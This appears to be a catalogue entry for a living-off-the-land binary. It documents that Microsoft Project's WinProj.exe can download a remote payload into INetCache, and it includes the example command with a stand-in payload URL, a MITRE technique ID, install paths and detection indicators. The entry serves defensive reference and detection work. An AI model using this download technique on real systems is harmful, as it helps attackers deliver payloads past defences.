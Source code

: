 ```yaml
---
Name: WinProj.exe
Description: Microsoft Project Executable
Author: Avihay Eldad
Created: 2024-02-14
Commands:
  - Command: WinProj.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\Office14\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\Office15\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\Office16\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office14\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\root\Office14\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office15\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\root\Office15\WinProj.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office16\WinProj.exe
  - Path: C:\Program Files\Microsoft Office\root\Office16\WinProj.exe
Detection:
  - IOC: URL on a WinProj command line
  - IOC: WinProj making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

